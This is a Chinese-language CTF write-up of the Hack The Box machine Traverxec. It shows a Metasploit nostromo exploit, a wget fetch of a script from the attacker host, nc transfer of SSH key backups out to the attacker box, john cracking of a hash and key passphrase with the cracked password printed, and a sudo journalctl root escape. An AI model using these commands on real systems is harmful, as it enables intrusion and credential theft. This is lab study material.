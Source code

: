 ```yaml
---
title: Traverxec（ssh2john爆破id_rsa对应密码）
categories:
- training
tags:
- training
---
```


参考资料：[https://whale3070.github.io/training/2019/01/07/x/](https://whale3070.github.io/training/2019/01/07/x/)

10.10.10.165

```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## web
searchsploit  nostromo
```
nostromo nhttpd is prone to a remote command-execution vulnerability because it fails to properly validate user-supplied data.

An attacker can exploit this issue to access arbitrary files and execute arbitrary commands with application-level privileges.

nostromo versions prior to 1.9.4 are affected.
```
msfconsole
```
search nostromo
use 0
set RHOSTS 10.10.10.165
set LHOST 10.10.14.8
run
```
得到一个www-data权限的shell

cat /etc/passwd | grep home
david:x:1000:1000:david,,,:/home/david:/bin/bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## 不尝试内核漏洞提权
```
uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux

whereis gcc
```
没有编译器，故不尝试内核漏洞提权。

```
wget http://10.10.14.4:8000/linux-exploit-suggester.sh -P /tmp

chmod +x /tmp/linux-exploit-suggester.sh

cd /tmp;./linux-exploit-suggester.sh
Possible Exploits:

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed
```

## 查找机密文件
find / -name "index.html" 2>/dev/null
找到web目录，查看是否有config文件
/var/nostromo/htdocs/index.html

---
find / -name "*rsa" 2>/dev/null
没找到

---

find / -name "*ssh*" 2>/dev/null

find / -name "backup*" 2>/dev/null

---
cd /var/nostromo/conf;cat .htpasswd

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

---

```
cd /home
ls -al
drwx--x--x  5 david david 4096 Oct 25 17:02 david
```
其他用户只有可执行权限，没有可读权限

---

cd /var/nostromo/conf;cat nhttpd.conf
```
# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```
从这里得知，/home/david可能有public_www的目录

```
cd /home/david/public_www;ls -al
cd  /home/david/public_www/protected-file-area;ls -al
download backup-ssh-identity-files.tgz backup.tgz
```
不能用download命令，只有meterpreter才可以使用download进行文件下载。

---
**kali主动连接目标机器，失败**
nc -lnvp 8888 < backup-ssh-identity-files.tgz
端口不能小于1024


nc 10.10.10.165 8888 -w 10 > backup-ssh-identity-files.tgz

---
**目标机器主动连接kali，成功**
kali: nc -lnvp 8888 > backup-ssh-identity-files.tgz
目标机器：nc 10.10.14.8 8888 -w 10 < backup-ssh-identity-files.tgz

**解压**
gunzip  backup-ssh-identity-files.tgz
解压后，发现/home/david目录下有`authorized_keys  id_rsa  id_rsa.pub`

## 密码破解

john --wordlist=rockyou.txt whatpass.txt
```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (?)
1g 0:00:04:04 DONE (2019-12-30 15:08) 0.004088g/s 43248p/s 43248c/s 43248C/s Noxema..Nowhere
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
加密格式为md5crypt-long，尝试切换用户，失败
su david/Nowonly4me

su root/Nowonly4me
失败

## ssh登陆

`ssh david@10.10.10.165 -i id_rsa`
输入密码Nowonly4me，失败

```
locate ssh2john
cd /usr/share/john
python ssh2john.py 
```
运行后提示了用法

```
python ssh2john.py /root/Documents/target/165/home/david/.ssh/id_rsa > /tmp/out.txt

cat /tmp/out.txt

john /tmp/out.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-01-08/1.PNG)

得出了id_rsa对应的密码

## 提权

再次尝试ssh登陆，`ssh david@10.10.10.165 -i id_rsa`，输入密码，登陆成功。

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-01-08/2.PNG)

## 总结
本次学到了两个知识点：
1. locate ssh2john
```
python ssh2john.py id_rsa > out.txt
john out.txt --wordlist=字典
```
可以在有id_rsa私钥的情况下，爆破ssh密码

2. 通过二进制可执行程序的提权方式[gtfobins](https://gtfobins.github.io/)，下次再开一篇讲解。
